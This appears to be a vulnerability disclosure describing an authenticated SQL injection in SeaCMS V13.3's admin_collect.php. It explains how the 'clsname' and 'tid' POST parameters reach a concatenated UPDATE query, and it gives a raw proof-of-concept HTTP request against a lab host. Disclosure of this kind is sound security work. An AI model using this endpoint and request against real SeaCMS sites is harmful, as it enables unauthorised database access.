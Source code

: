 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112536963](images/image-20250114112536963.png)



The vulnerability is located in the admin_collect.php file. Starting at line 479, if the value of '$action' is' customersavecls' and the $e_id option exists, then proceed further. You can see that 488 gets the class name 'clsname' and the system class ID 'tid' from the POST request, and further down, if the class name is not empty, constructs and executes an SQL update statement, Update the new class name 'clsname' and system class ID 'tid' to the corresponding record in the database's 'sea_co_cls' table. There are SQL statement concatenation in this code, and there are controllable parameters, which can cause SQL injection problems.



![image-20250114141100937](images/image-20250114141100937.png)



```
POST /seacms/bf6nbn/admin_collect.php?action=customersavecls HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/bf6nbn/admin_collect.php?action=customercls
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 473

e_id%5B%5D=1&clsname1=%E5%A4%A7%E9%99%86&tid1=1&e_id%5B%5D=2&clsname2=%E9%A6%99%E6%B8%AF&tid2=1&e_id%5B%5D=3&clsname3=%E5%8F%B0%E6%B9%BE&tid3=1&e_id%5B%5D=4&clsname4=%E6%97%A5%E6%9C%AC&tid4=1&e_id%5B%5D=5&clsname5=%E9%9F%A9%E5%9B%BD&tid5=1&e_id%5B%5D=6&clsname6=%E6%AC%A7%E7%BE%8E&tid6=1&e_id%5B%5D=7&clsname7=%E6%97%A5%E9%9F%A9&tid7=1&e_id%5B%5D=8&clsname8=%E4%B8%AD%E5%9B%BD&tid8=1&chkall=on&Submit=%E6%89%B9%E9%87%8F%E4%BF%AE%E6%94%B9%E9%80%89%E4%B8%AD%E5%88%86%E7%B1%BB
```



![image-20250114034744993](images/image-20250114034744993.png)





